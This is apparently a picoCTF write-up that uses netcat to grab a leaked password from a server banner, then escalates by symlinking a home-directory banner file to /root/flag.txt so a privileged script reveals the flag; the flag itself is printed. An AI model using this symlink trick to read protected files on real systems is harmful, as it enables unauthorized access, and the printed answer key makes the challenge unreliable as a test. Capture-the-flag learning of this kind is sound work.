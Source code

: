 #### Description

Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 63838`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 54438`. From the above information abuse the machine and find the flag in the /root directory.

### Solution

Logging in on the nc connection provided hits you with a password request.

```
03:35:14 archie@Archie ~ → nc tethys.picoctf.net 52675
*************************************
**************WELCOME****************
*************************************

what is the password?
```

The next logical step is to investigate the netcat in the header in order to get the “leaked” information.

```
03:36:19 archie@Archie ~ → nc tethys.picoctf.net 65227
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

That gives you the password and next, you are prompted with some general questions that you can find the answers to on google :

```
03:38:08 archie@Archie ~ → nc tethys.picoctf.net 52675
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
Defcon
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```

Now, you are in the machine. Let`s investigate the pwd.

```
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```

This didn`t help very much but navigationg to the root directory will.

```
player@challenge:/$ cd root
cd root
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat flag.txt
```

**script.py :**

```
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

The interesting part of all of this is the fact that the script reads the banner file in your home directory using elevated priviledges. This basically boils down to the fact that if you could somehow change the file from banner to flag.txt you could in theory get the password for the next level. Here is where symlinks come in handy. They are basically the same thing as a shortcut on windows. The taught process is that we remove the file, create a link to the file that we actually want to read then run the script.

```
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ls
ls
text
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls
ls
banner  text
```

Now, when you log into the same instance once again, the script will execute and hopefully spit out the password.

**Next login :**

```
03:49:07 archie@Archie ~ → nc tethys.picoctf.net 52675
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}
```

**Respuesta en el formato del concurso:**
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}